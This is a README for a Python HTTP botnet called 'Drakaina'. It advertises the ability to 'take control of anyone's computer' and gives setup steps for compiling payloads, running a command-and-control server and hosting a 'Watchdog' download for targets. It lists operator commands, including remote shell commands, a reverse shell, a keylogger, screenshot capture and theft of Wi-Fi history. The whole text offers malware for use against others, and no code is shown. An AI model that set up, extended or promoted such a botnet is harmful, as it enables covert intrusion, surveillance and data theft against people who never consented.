 # Drakaina-Botnet
A HTTP botnet with the main core features with more to come, completely made in python.
Take control of anyone's computer like it's non of your buisness, because it is not.

# Instructions:

1) Make sure all files are in the same folder.

2) " python3 commandcontrol.py "

3) " /compile "

4) once finished place both compiled files in the static/windows folder.

5) open server.cfg and change the server and port to what you want the server to run on.

6) " python3 server.py "

7) test by downloading the Watchdog file from the link "http://<yourip>:<port>/downloads/windows/watchdog"


# Command & Control :

--- main options ---

/list = show registered users

/target = select a target

----------------------------


--- targeted options ---

/rshell = change current targets reverse shell server and port .

/rshell_show = show current targets reverse shell server and port .

/command = attempt a shell command or a pre-defined command
     {rshell, keylogger, getwifi, screenshot, reboot}

/getwifi = get wifi SSID history of current target.

----------------------------


     

